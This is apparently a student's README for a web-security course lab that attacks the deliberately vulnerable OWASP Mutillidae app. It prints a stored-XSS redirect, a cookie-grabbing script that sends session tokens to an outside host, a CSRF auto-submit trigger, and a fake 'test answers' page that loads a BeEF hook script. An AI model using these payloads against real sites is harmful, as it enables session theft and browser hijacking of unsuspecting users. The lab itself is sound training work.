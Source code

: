 # INFO-6076 – Web Security
## 💥 Lab 03: XSS, CSRF, and BeEF

This lab explores the exploitation of web vulnerabilities including **Stored XSS**, **Cross-Site Request Forgery (CSRF)**, and **Browser Exploitation Framework (BeEF)** techniques on a vulnerable web app: **OWASP Mutillidae**.

---

## 🔧 Prerequisites

- Kali Linux VM with Firefox and BeEF installed
- Ubuntu VM running Mutillidae
- Windows 10 VM with Firefox browser
- Internet connectivity
- Apache server on Kali
- VMware Workstation 16+

## 🧪 Lab Components

### ✅ Part 1: Stored XSS – Page Redirection
- Used `<script>window.location = "http://www.offensive-security.com/"</script>` on blog entry
- Demonstrated malicious redirection through stored XSS
- Verified on Windows 10 VM via Firefox
- Grabbing session tokens using `<script>document.location="http://oabolurin-uws/..."</script>`

📸 See `screenshots/slide01.png` and `slide02.png`

---

### ✅ Part 2: CSRF Attack via Blog Entry
- Identified and modified a CSRF payload using directory traversal
- Inserted invisible form submission using:
  ```html
  <i onmouseover="window.document.getElementById('f').submit()">oabolurin will get A+ in this course</i>



---

### 📝 `testanswers.html` (sample payload for hooking)

```html
<!DOCTYPE html>
<html>
<head>
  <title>oabolurin</title>
  <script src="http://10.0.0.99:3000/hook.js"></script>
</head>
<body>
  <h1>Welcome to oabolurin’s Cheat Sheet!!!</h1>
  <p>You can find the answers to all of Art’s tests here.</p>
</body>
</html>
